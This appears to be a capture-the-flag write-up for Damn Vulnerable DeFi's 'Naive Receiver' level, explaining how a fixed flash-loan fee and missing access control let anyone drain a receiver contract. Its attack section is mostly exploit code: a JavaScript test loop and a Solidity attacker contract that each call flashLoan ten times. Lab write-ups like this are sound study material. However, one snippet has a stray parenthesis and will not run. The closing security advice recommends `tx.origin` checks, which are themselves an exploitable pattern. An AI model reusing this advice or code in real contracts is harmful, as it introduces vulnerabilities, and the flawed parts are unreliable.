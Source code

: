 # Level 2 : Naive Receiver

Regarding the description, the idea is to drain funds from a contract that interact with a pool.

Contract to attack has 10 ETH and pool has 1000 ETH in balance.

We can call the `flashLoan()` function with 2 arguments : the borrower and borrowamount.

After that, `flashLoan()` with send to the caller contract `borrowamount` and get back `borrowamount + fee` (1 ETH) using `borrower.functionCallWithValue(…)`

As the fee of 1 ETH is a FIXED_FEE , even if we call the function to borrow 0 ETH we will have to pay 1 ETH, this is the first point of failure.

The second point of failure is that in the second contract, there’s no proper access control that check inside `receiveEther()` allowing anyone to call this function and make it pay 1 ETH.

Even more, there’s is no proper verification that the contract is actually receiving ETH before paying out the fee value, it’s like a give away function to the pool.

### Attack

As the description say , there is 2 way to attack the contract, one long and one short. Both get the same logic : calling 10 times the ****`FlashLoanReceiver`****

- **Long Solution**

```jsx
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  for (i = 1; i <= 10; i++) {
    await this.pool.connect(attacker).flashLoan(this.receiver.address, 0)
    console.log(i, String(await ethers.provider.getBalance(this.receiver.address)))
  }
}
```

- **Short Solution : make a contract do the job for us**
    - Create contract in ./damn-vulnerable-defi/contracts/naive-receiver/
    
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    import "./NaiveReceiverLenderPool.sol";
    contract Attacker {
        NaiveReceiverLenderPool public pool;
        constructor(address payable _pool) {
            pool = NaiveReceiverLenderPool(_pool);
        }
        function attack(address _receiver) external {
            for (uint256 i = 0; i < 10; i++) {
                pool.flashLoan(_receiver, 0);
            }
        }
    }
    ```
    
    - Add these lines to your `naive-receiver.challenge.js` :
    
    ```jsx
    it('Exploit', async function () {
            /** CODE YOUR EXPLOIT HERE */
          	const Attacker = await ethers.getContractFactory('Attacker', attacker)
          	this.attackerContract = await Attacker.deploy(this.pool.address)
          	// Attack
          	await this.attackerContract.connect(attacker).attack(this.receiver.address)
          	)
        });
    ```
    

### Key Security Takeaways

- Maybe calcul difference between ETH received and ETH transferred would be a useful thing to do 🙂
- Always implement access control by creating role like owner or admin and use it with `require()` at the beginning of your function
    
    `require(tx.origin == owner);`